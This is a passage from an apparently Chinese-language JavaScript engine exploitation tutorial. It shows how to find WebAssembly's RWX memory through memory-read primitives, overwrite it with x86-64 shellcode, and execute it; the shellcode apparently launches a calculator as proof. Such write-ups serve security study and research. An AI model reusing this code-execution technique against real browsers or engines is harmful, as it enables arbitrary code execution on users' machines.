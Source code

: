 
### 方法二

通过WASM，能得到一块RWX的内存，里面放着WASM的二进制代码，将shellcode写入到这块内存，再调用WASM接口时，就会执行Shellcode了。

```
function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                print(utf8ToString(h, index));
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
}


var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe8);

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];
// wite the shellcode to wasm code
dataViewWrite(rwxAddr, shellcode);
// run shellcode
func();
```

